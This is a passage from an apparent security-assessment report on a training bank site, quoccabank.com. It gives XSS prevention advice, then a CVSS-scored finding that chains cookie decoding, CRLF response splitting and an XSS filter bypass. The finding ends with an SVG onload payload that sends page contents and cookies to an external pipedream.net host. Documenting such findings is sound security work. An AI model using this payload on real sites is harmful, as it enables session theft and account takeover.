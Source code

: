 A well-secured site would ensure this data stays in "slots" and cannot break out. Developers should not put untrusted data in places such as Scripts, HTML comments, attribute and tag names nor CSS itself.

HTML encoding is required for HTML bodies but other contexts requires attribute encoding (for HTML attributes), JavaScript encoding (for Javascript data values) or URL encoding (for HTML URL parameters) in order to be well - protected.

Various other preventions include: Avoid JavaScript URLs, Sanitize HTML Markup with a Library Designed for the Job.

There are many other preventions can be found on the subsequent report: [OWASP On XSS prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).

In our case, hidden and unused fields should be removed if not used, or filtered to prevent injection of scripts and code.

<div class="pagebreak"> </div>

## 1.8. report.quoccabank.com
**Threat - XSS, HTTP Response Splitting**
### Details
| Metric                   | Description |
| ------------------------ | ----------- |
| Access Vector (AV)       | **Network (N)** - The attack can only be exploited over a network. We assume the vulnerable website is connected to the Internet, as this is a common deployment.|
| Attack Complexity (AC)   | **Low (L)** - The attacker can expect repeatable success.|
| Privileges Required (PR) | **None (N)** - The attacker requires no privileges to perform the attack.|
| User Interaction (UI)    | **Required (R\)** - An admin needs to click the report.|
| Scope (S)                | **Changed (C\)** - An exploited vulnerability can affect resources beyond the security scope managed by the security authority of the vulnerable component. In this case, the stored XSS affects all victims that visit the report.|
| Confidentiality (C\)     | **Low (L)** - Information in the admin's browser can be read by the malicious JavaScript code and sent to the attacker.|
| Integrity (I)            | **Low (L)** - Information in the admin's browser can be modified by the malicious JavaScript code.|
| Availability (A)         | **None (N)** - The malicious JavaScript code cannot significantly impact the admin's browser.|

**CVSS Base Score: 6.1 (MEDIUM)**

### Steps to Reproduce
This vulnerability is found on the report.quoccabank.com domain, particularly `robots.txt`
- Visiting `robots.txt` exposes a subdirectory `/view` however going to the page directly returns a `400` status code with the error message `missing report id`
![](https://i.imgur.com/WO7Tiwk.png)
*Error resposne when visiting `/view`*
- By submitting a report, a session cookie is returned. `eyJyZXBvcnRzIjpbeyIgYiI6IlpqVmxNbVUzTXpVdFlUVTNaQzAwWWpRMUxUZ3dOR0V0WWpFeVlqbGtORFprTjJNeSJ9XX0.YPzQSQ.3OA3Uoedp-SQYIloXQMXxI4IeBs`
- Base64 decoding it reveals that a report id `f5e2e735-a57d-4b45-804a-b12b9d46d7c2` and thus we can now visit the report at `/view/f5e2e735-a57d-4b45-804a-b12b9d46d7c2`.
- HTTPOnly is on which means that you cannot use javascript to expose the cookie.
- Since the title parameter is reflected in the the response header, you can use Response Splitting with CRLF to expose the cookies. 
- By inserting `\r\n` into the `name` parameter using burp, you can trick the server to prematurely end the header, exposing data into the page content which was previously inaccessible.
![](https://i.imgur.com/3o010AK.png)
*Header data exposed into page content*
- Now to retrieve the content of the page (and thus the cookies), you can bypass the xss filter by using the payload below.
```javascript=
<object></object>
<svg/onload=fetch(`https://en4wk9uin6mam8n.m.pipedream.net/?cookie=${document.documentElement.outerText}`)
```